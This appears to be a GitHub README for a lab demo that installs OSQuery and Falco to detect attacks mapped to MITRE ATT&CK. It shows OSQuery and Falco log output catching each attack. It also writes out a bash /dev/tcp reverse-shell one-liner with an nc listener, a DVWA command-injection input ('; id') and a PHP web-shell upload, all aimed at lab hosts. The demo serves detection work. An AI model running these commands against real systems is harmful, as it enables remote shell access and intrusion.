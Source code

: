 # Goals
This demo setup OSQuery and Falco agents on a Linux server to hunt cybersecurity threats. Rules map to MITRE's Attack Framework.

# Prerequisites
- A Linux server running Ubuntu 20.04, installed Ansible and docker

# Steps
## 1. Install OSQuery and Falco agents 
```bash
ansible-playbook install.yaml
```

## 2. Testing
- target host: ip=192.168.3.103, hostname=h3 (installed OSQuery and Falco)
- attacker host: ip=192.168.3.104, hostname=h4

Run exploit code and monitor logs

### 2.1 Create reverse shell
```bash
# attacker
vagrant@h4:~$ nc -nvlp 8080

Listening on 0.0.0.0 8080
Connection received on 192.168.3.103 40466
vagrant@h3:~$ id
id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
vagrant@h3:~$


# target
vagrant@h3:~$ bash -i >& /dev/tcp/192.168.3.104/8080 0>&1
```

```bash
tail -f /var/log/osquery/osqueryd.results.log

{"name":"behavioral_reverse_shell","hostIdentifier":"h3","calendarTime":"Mon May  2 06:05:14 2022 UTC","unixTime":1651471514,"epoch":0,"counter":0,"numerics":false,"columns":{"cmdline":"bash -i","cwd":"/home/vagrant","gid":"1000","name":"bash","parent":"14158","parent_cmdline":"-bash","path":"/usr/bin/bash","pid":"29283","remote_address":"192.168.3.104","remote_port":"8080","root":"/","start_time":"1651470912","uid":"1000"},"action":"added"}
```

### 2.2 Exploit DVWA vulnerabilities
```bash
# run DVWA app on the target host
docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

Access DWVA web and exploit:

***command-injection:***
![](screenshots/dvwa-command-injection.png)

***file-upload:*** 
download yaps.php file from https://github.com/Nickguitar/YAPS
![](screenshots/dvwa-file-upload.png)

```bash
tail -f /var/log/osquery/osqueryd.results.log

{"name":"blacklist_process_events","hostIdentifier":"h3","calendarTime":"Mon May  2 04:52:14 2022 UTC","unixTime":1651467134,"epoch":0,"counter":0,"numerics":false,"columns":{"cid":"3991","cmdline":"ping -c 4","cwd":"/var/www/html/vulnerabilities/exec","duration":"272668","exit_code":"0","gid":"33","ntime":"566756435645000","parent":"28239","path":"/bin/ping","pid":"28240","probe_error":"0","syscall":"exec","tid":"28240","uid":"33"},"action":"added"}
{"name":"blacklist_process_events","hostIdentifier":"h3","calendarTime":"Mon May  2 04:52:14 2022 UTC","unixTime":1651467134,"epoch":0,"counter":0,"numerics":false,"columns":{"cid":"3991","cmdline":"id","cwd":"/var/www/html/vulnerabilities/exec","duration":"229619","exit_code":"0","gid":"33","ntime":"566756437328111","parent":"28239","path":"/usr/bin/id","pid":"28241","probe_error":"0","syscall":"exec","tid":"28241","uid":"33"},"action":"added"}

{"name":"blacklist_socket_events","hostIdentifier":"h3","calendarTime":"Mon May  2 05:40:45 2022 UTC","unixTime":1651470045,"epoch":0,"counter":1,"numerics":false,"columns":{"cid":"3991","duration":"157961","exit_code":"18446744073709551501","family":"2","fd":"11","gid":"33","local_address":"","local_port":"0","ntime":"569684542775889","parent":"29024","path":"/usr/sbin/apache2","pid":"29028","probe_error":"0","protocol":"0","remote_address":"192.168.3.104","remote_port":"8080","syscall":"connect","tid":"29028","type":"1","uid":"33"},"action":"added"}




tail -f /var/log/syslog

May  2 08:19:00 h3 falco: 15:19:00.902174435: Debug Shell spawned by untrusted binary (user=www-data user_loginuid=-1 shell=sh parent=apache2 cmdline=sh -c ping  -c 4 ; id pcmdline=apache2 -k start gparent=apache2 ggparent=<NA> aname[4]=<NA> aname[5]=<NA> aname[6]=<NA> aname[7]=<NA> container_id=2453035f32e7 image=vulnerables/web-dvwa)
```

# References:
Threat Hunting Methodologies:
- https://attack.mitre.org
- https://paraflare.com/attack-lifecycle-detection-of-an-operational-technology-breach/
- https://pberba.github.io/security/2021/11/22/linux-threat-hunting-for-persistence-sysmon-auditd-webshell/

Tools:
- https://osquery.io
- https://fleetdm.com
- https://falco.org
- https://zeek.org

Rule set:
- https://github.com/palantir/osquery-configuration/
- https://github.com/teoseller/osquery-attck/
- https://github.com/bfuzzy/auditd-attack
